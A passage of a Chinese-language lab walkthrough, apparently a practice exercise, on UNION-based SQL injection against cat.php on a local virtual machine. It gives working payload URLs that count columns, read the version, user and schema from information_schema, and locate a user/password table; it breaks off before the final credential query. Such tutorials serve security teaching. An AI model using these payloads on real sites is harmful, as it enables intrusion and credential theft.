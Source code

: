    ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1``` 

   ![](images/error_p2.png)

也可以利用关键字```ORDER BY```来判断属性列的个数，`ORDER BY`主要用于告诉数据库应该使用哪个列来排序结果，所以如果没有该属性列，会报错。

```http://192.168.56.101/cat.php?id=1 ORDER BY 5```

![](images/order_by5.png)



依次尝试后发现第5列是一个未知列，所以数据库只有4列。



#### 检索信息

知道列数之后，可以用一些语句替换某一列值，得到我们想要的信息。

在上述猜测列数的过程中，可以看到多了一个picture：2字段，猜测第2列可以利用。

1. 查看版本信息。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,@@version,3,4```

   ![](images/version.png)

2. 查看当前用户。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,current_user(),3,4```

   ![](images/current_user.png)

3. 查看数据库信息。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,database(),3,4```

   ![](images/database.png)

4. 查看所有表的列表。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables```

   ![](images/tables.png)

5. 查看所有列的列表。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns```

   ![](images/columns.png)

6. 连接表和列。在user表中看到有用户和密码列。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```

   ![](images/user.png)


7. 构建一个查询得到用户名和密码。

   ![](images/user_information.png)



   ```